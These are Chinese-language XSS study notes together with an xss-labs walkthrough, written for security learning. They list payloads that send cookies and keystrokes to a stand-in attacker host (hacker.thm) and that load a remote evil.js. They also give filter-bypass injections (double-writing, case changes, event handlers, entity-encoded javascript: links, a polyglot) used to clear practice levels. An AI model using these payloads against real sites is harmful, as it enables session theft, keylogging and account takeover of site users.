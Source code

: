 # XSS 学习笔记
XSS，该漏洞被归类为注入攻击，恶意的 JavaScript代码 将被注入到 Web 应用程序中

## payloads
XSS的payload有两部分，用于 实现意图的部分 和 需要自行修改的部分 。

payload的“意图”部分是你希望 JavaScript代码 实际执行的操作（我们将在下面的一些示例中进行介绍），而payload的“修改”部分是指我们需要对代码进行更改以使其能够成功执行

**Proof Of Concept（POC-概念验证）：**通过在页面上弹出一个带有文本字符串的警告框

```javascript
<script>alert('XSS');</script>
```

**Session Stealing（会话窃取）：**下面的 JavaScript 能获取目标的 cookie，先通过 base64 编码 cookie 以确保其能成功传输，然后将其发布到黑客所控制的网站以进行记录。

```javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

**Key Logger（键盘记录器）：**下面的js代码能充当键盘记录器。 这意味着你在网页上键入的任何内容都将被转发到黑客所控制的网站。

```javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

**Business Logic（业务逻辑）：**此处会调用特定的网络资源或 JavaScript 函数，例如，假设存在一个名为 user.changeEmail() 的用于更改用户电子邮件地址的 JavaScript 函数

```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```

## <font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">反射型XSS</font>
<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">当用户在 HTTP 请求中提供的数据未经任何验证就能被包含在网页源代码中时，就会发生反射型 XSS。</font>

<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">注入?error=<script src="https://attavker.thm/evil.js"></script></font>

_**<font style="color:rgba(0, 0, 0, 0.75);background-color:rgb(235, 246, 255);"><script src></font>**_<font style="color:rgba(0, 0, 0, 0.8);background-color:rgb(235, 246, 255);"> 属性用于在 HTML 文档中引用外部 JavaScript 文件。</font>

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748488640105-4fd37602-3082-45c6-8eda-06917b76fcad.png)

注入点：

<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">URL 查询字符串中的参数（Parameters ）</font>

<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">URL 文件路径</font>

<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">HTTP 标头（尽管在实践中不太可能存在XSS漏洞利用）</font>

## <font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">存储型XSS</font>
<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">存储型XSS的payload能够存储在 Web 应用程序中（例如，将XSS payload存储在数据库中），然后在其他用户访问站点或网页时就能自动运行相关的XSS payload。</font>

## <font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">基于DOM的 XSS</font>
DOM 代表文档对象模型，是 HTML 和 XML 文档的应用程序编程接口，它代表的是一个页面，以便程序可以更改文档结构、样式和内容。

<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">直接在浏览器中执行，而无需加载任何新页面或将数据提交给后端代码。当网站上的 JavaScript恶意代码 作用于输入或与用户发生交互时，该代码就会被执行。</font>

## <font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">Blind(盲注)XSS</font>
<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">看不到相关的XSS payload是如何工作的或者你无法自行测试该XSS payload</font>

<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">在测试 Blind XSS 漏洞时，你需要确保你的 XSS payload 有回调（通常是一个HTTP请求）；这样，你就能知道你的代码是否被执行以及何时被执行。</font>

<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">工具： </font>xsshunter

## 实战（做题方法）
0.测试过滤

```javascript
" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
```

1.直接提交

```javascript
<script>alert('THM');</script>
```

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748492994518-4b276fbc-0753-497f-9c8d-5a7e9223cfba.png)

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748491129363-55804454-a352-4d1a-aaf2-cfb68bb2e632.png)

2.<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">先对输入(input)标签进行闭合处理</font>

```javascript
"><script>alert('THM');</script>
```

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748492970994-1d7f1682-5319-4d4c-850a-4713c2069f85.png)

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748492040982-33f2831e-a15a-4daa-813b-245a87476e9a.png)

3.如果遇到</textarea>，需要先将其闭合

```javascript
</textarea><script>alert('THM');</script>
```

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748492950613-63c4f843-673a-4340-be96-b97eb6b2f933.png)

4.先对<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">指定name的字段</font>进行闭合处理

```javascript
';alert('THM');//
```

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748493574900-c8a3015d-94cb-4a02-9a94-5f0886fdee30.png)

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748493585790-40913a6e-fa39-4026-9e86-55a5af8f5775.png)

5.当<script>会被过滤时，可以双写绕过

```javascript
<sscriptcript>alert('THM');</sscriptcript>
```

6.当<和>被过滤时，<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">可以利用 IMG 标签的附加属性</font>

<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">(1)例如 </font>_**<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">onload</font>**_<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);"> 事件（与img src连用）</font>

```javascript
/images/cat.jpg" onload="alert('THM');
```

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748511611648-ab652afa-2e2f-48ac-b2ad-6c3d3dcdaec1.png)

<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">(2)</font><font style="color:rgb(77, 77, 77);">配合</font>**<font style="color:rgb(254, 44, 36);">onerror属性</font>**<font style="color:rgb(77, 77, 77);">，插入一个</font>**<font style="color:rgb(254, 44, 36);"><img></font>**<font style="color:rgb(77, 77, 77);">标签，闭合掉双引号跟括号，构造payload</font>

```javascript
"> <img src='666' onerror=alert()> <"
```

> <font style="color:rgb(79, 79, 79);background-color:rgb(238, 240, 244);">onerror属性是指当图片加载不出来的时候触发js函数，以上面的代码为例，这里因为src指向的是值666，而不是图片的地址和base64编码啥的，就会导致触发alert函数</font>
>

(3)其它img src相关构造

**<font style="color:rgb(254, 44, 36);">onmouseout</font>**

```javascript
"> <img src=666 onmouseout="alert()"> <"
```

**<font style="color:rgb(254, 44, 36);">onmouseover</font>**

```javascript
"> <img src=1 onmouseover="alert()"> <"
```

**<font style="color:rgb(254, 44, 36);">data:text/html;base64</font>**

```javascript
"> <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+"> <"
```

<font style="color:rgb(35, 38, 59);background-color:rgba(255, 255, 255, 0.9);">7.Polyglots（多语言）:（通用）</font>

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

8.当<>被实体化时，通过 htmlspecialchars函数只针对<>大于小于号进行html实体化 

用onfocus事件，常与 <input>、<select> 和 <a> 标签一起使用

```javascript
" onfocus=javascript:alert(123) "
```

9.当过滤了js的标签还有onfocus事件，并且强制转换为小写时

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748538626611-f178a45d-e7ac-48f7-aaec-9559ec4b811f.png?x-oss-process=image%2Fformat%2Cwebp)

用**<font style="color:#fe2c24;">a href标签法</font>****(前为input标签)**

```javascript
"> <a href=javascript:alert()>xxx</a>
```

10.大小写绕过

```javascript
"><SCRIPT>alert('THM');</script>
```

11.<font style="color:rgb(51, 51, 51);background-color:rgb(250, 252, 253);">htmlspecialchars() 函数把一些预定义的字符转换为 HTML 实体。同时还</font><font style="color:rgb(77, 77, 77);">过滤掉了src、data、onfocus、href、script、"（双引号），以及大小写转换</font>

题目中含有href标签

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748886223884-8d029fcc-1429-4012-bbf2-06eda0c3bfe8.png)

# xss-labs
## level1
直接注入js代码即可

```javascript
?name=<script>alert('123');</script>
```

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748512521886-a996901c-8405-4cf2-a376-9195a1fd85a0.png)

## level2
直接提交会失败，查看源码后发现含有input标签，需要先闭合

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748535897878-bb41a25a-9d00-44fe-aad5-80c268ba01c2.png)

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748536409345-41dbaf76-1d6a-4aa7-8d4a-591131ab454c.png)

## level3
像上一关一样单引号闭合后会发现没有执行成功，增加了&lt; 和 &gt;奇怪的符号

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748536901009-d76e66c2-994f-47f6-9492-405e3af273be.png)

检索得知，符号被实体化了，即通过 htmlspecialchars函数只针对<>大于小于号进行html实体化 

**这里我们可以利用onfocus事件绕过**

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748537202592-d1fdfe5f-d25a-4b4c-a8d5-5c386cf766eb.png)

onfocus事件在元素获得焦点时触发，最常与 <input>、<select> 和 <a> 标签一起使用，以上面图片的html标签<input>为例，<input>标签是有输入框的，简单来说，onfocus事件就是当输入框被点击的时候，就会触发myFunction()函数，然后我们再配合javascript伪协议来执行javascript代码

所以，使用onfocus事件不需要用>闭合

```javascript
' onfocus=javascript:alert(123) '
```

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748537933040-306d2c46-0e3b-4229-913c-3fd9b77f9d5f.png)

## level4
先审计代码

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748538000449-ec75f886-8cba-4096-9d97-49d901c02d04.png)

尝试双引号闭合，发现过滤了<>

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748538105163-847ef29c-4d44-4286-8414-1be45047aafd.png)

继续用onfocus事件即可，用"闭合

```javascript
" onfocus=javascript:alert(123) "
```

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748538289918-cf951867-b42b-47bc-baa2-a009c337dff5.png)

## level5
这一关发现script被替换成了scr_ipt,用o_nfocus也是如此

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748538394119-5a31d56b-fa18-4daa-ad33-b738151921c3.png)

检索得知，通过以下三段代码限制了

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748538626611-f178a45d-e7ac-48f7-aaec-9559ec4b811f.png)

过滤了js的标签还有onfocus事件，虽然str_replace不区分大小写，但是有小写字母转化函数，所以就不能用大小写法来绕过过滤了，只能新找一个方法进行xss注入，这里我们用**<font style="color:#fe2c24;">a href标签法</font>**

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748538672459-cffad92c-304f-4f41-a195-f828cbb24fd7.png)

href属性的意思是 当标签<a>被点击的时候，就会触发执行转跳，上面是转跳到一个网站，我们还可以触发执行一段js代码

```javascript
"> <a href=javascript:alert()>xxx</a>
```

点击xxx即可过关

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748538872443-1a5f3ccb-f3b2-41ec-ad68-7fada6f7d178.png)

## level6
这关还是过滤了script

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748848503076-d8e4d5c0-b212-4dee-9f0c-878b3036b24f.png)

但是没有过滤大小写，直接用大写即可

```javascript
"><SCRIPT>alert('THM');</script>
```

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748848703378-ac33d457-a209-4eb7-b6cc-903dceb4da04.png)

## level7
这一关把括号里的script给删了

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748848882241-8a3b292e-8aa5-458a-8a75-dc4dccb40268.png)

双写绕过即可

```javascript
"><scrscriptipt>alert('thm');</scrscriptipt>
```

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748849288329-9985e175-623c-4393-866e-c96e0d4d6dff.png)

## level8
这一关有两个标签，<font style="color:rgb(77, 77, 77);">第一个是input标签，第二个是href属性</font>

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748884301195-8ac4870e-0f67-4548-8f25-4c10164e65b3.png)

测试发现<font style="color:rgb(77, 77, 77);">过滤掉了src、data、onfocus、href、script、"（双引号），添加了html实体转化函数</font>

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748885387646-8d7c8c18-a43c-4f11-8527-f169466addec.png)

<font style="color:rgb(77, 77, 77);">但是我们能利用href的隐藏属性自动Unicode解码，我们可以插入一段js伪协议</font>

```javascript
javascript:alert()
```

<font style="color:rgb(77, 77, 77);">利用在线工具进行Unicode编码后得到，</font>[在线Unicode编码解码 - 码工具](https://www.matools.com/code-convert-unicode)

```javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;
```

点击友情标签即可

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748886262603-383b2d50-d565-4acc-b9c6-8281558b7733.png)

## level9
这关直接用上一关的方法会插入失败

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748886720161-a66a63a5-2b61-4cbd-bb99-5a179bfe69cc.png)

源码如下，要求传入的值必须有<font style="color:rgb(77, 77, 77);">http://</font>

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748886745200-41fa0229-7e64-4710-ba7a-8175c47f3b3f.png)

如

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748886856236-ba524bd0-37ed-468d-8cdf-7aa8fb7d6c0b.png)

<font style="color:rgb(77, 77, 77);">我们需要向传入的值里面添加</font><font style="color:rgb(254, 44, 36);">http://并用注释符注释掉否则会执行不了无法弹窗</font>

```javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;/* http:// */
```

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748887046808-d7f165c4-9f1f-4d62-8959-0f44c9aacc34.png)

## level10
先看一下源码，发现有三个可以传参的地方

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748887591603-0170e0ff-e797-439f-a8b2-9990fe2c42d9.png)

分别测试三个传参，发现什么方法都不行

看完wp知道<font style="color:rgb(77, 77, 77);">这里过滤了<>，同时输入框被隐藏了，需要添加type="text"</font>

```javascript
?t_sort=" onfocus=javascript:alert() type="text
```

ok了

![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1748888023026-40124942-7240-4396-b7f5-e75bede30def.png)

